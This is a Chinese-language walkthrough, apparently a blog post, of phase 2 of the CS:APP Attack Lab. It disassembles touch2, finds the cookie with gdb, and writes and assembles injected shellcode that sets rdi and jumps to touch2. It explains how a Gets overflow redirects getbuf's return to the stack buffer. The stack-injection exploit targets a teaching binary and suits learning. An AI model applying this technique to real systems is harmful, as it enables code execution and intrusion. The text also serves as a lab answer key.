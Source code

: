```x86asm
00000000004017ec <touch2>:
  4017ec:    48 83 ec 08              sub    $0x8,%rsp
  4017f0:    89 fa                    mov    %edi,%edx
  4017f2:    c7 05 e0 2c 20 00 02     movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:    00 00 00 
  4017fc:    3b 3d e2 2c 20 00        cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:    75 20                    jne    401824 <touch2+0x38>
  401804:    be e8 30 40 00           mov    $0x4030e8,%esi
  401809:    bf 01 00 00 00           mov    $0x1,%edi
  40180e:    b8 00 00 00 00           mov    $0x0,%eax
  401813:    e8 d8 f5 ff ff           callq  400df0 <__printf_chk@plt>
  ```
发现参数val与(0x202ce2 + $rip)所指向的值比较，即与cookie比较。需要用gdb查看cookie，但是注意，这里有个坑！我一开始是把断点打到了  
4017fc:    3b 3d e2 2c 20 00        cmp    0x202ce2(%rip),%edi 

这条指令，即``(gdb) break *0x4017fc``。在此时打印cookie的值为：
```
    (gdb) print /x *(unsigned *)($rip + 0x202ce2)$15 = 0x2f8a0000
```
但是注意gdb被打到断点时的指令是还未运行的指令，所以此时的rip并不是指向断点指令的下一条指令，也就不是真正的参与cmp运算的rip的值，所以要通过stepi，使断点指向下一条指令，这时候查看($rip + 0x202ce2)所指向的值：
```
(gdb) print /x *(int *)($rip + 0x202ce2)$17 = 0x59b997fa
(gdb) print $rip$18 = (void (*)()) 0x401802 <touch2+22>
```
所以0x59b997fa才是正确的cookie的值。

现在可以编写需要注入的代码了。即设置$rdi的值为cookie，之后将控制跳转到touch2，可以先使用push指令将touch2的入口地址压栈，再使用ret指令从栈中获取返回地址，从而跳转到touch2。这段代码保存在code.s文件中：
```x86asm
mov $0x59b997fa, %rdi
push $0x4017ec
ret
```
再使用gcc编译code.s为code.o目标文件，再用objdump反汇编这段代码，得到这段代码的十六进制表示：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim code.s
sugar@ubuntuServer:~/csappLab/attacklab$ gcc -Og -c code.s
sugar@ubuntuServer:~/csappLab/attacklab$ objdump -d code.o
code.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:    48 c7 c7 fa 97 b9 59     mov    $0x59b997fa,%rdi
   7:    68 ec 17 40 00           pushq  $0x4017ec
   c:    c3                       retq  
```
最后一个问题，如何让程序ctarget执行这段代码呢？由于我们只能以Gets函数为突破口，输入字符串保存在栈上，所以与上一题类似，我们通过覆盖getbuf的返回地址，但这次让新返回地址指向buffer的起始地址，由于getbuf在栈上分配了buffer的空间（通过减$rsp分配了40Bytes的空间），这就是留给我们注入代码的位置。在getbuf函数执行ret指令后，跳转到我们注入的代码开始执行。
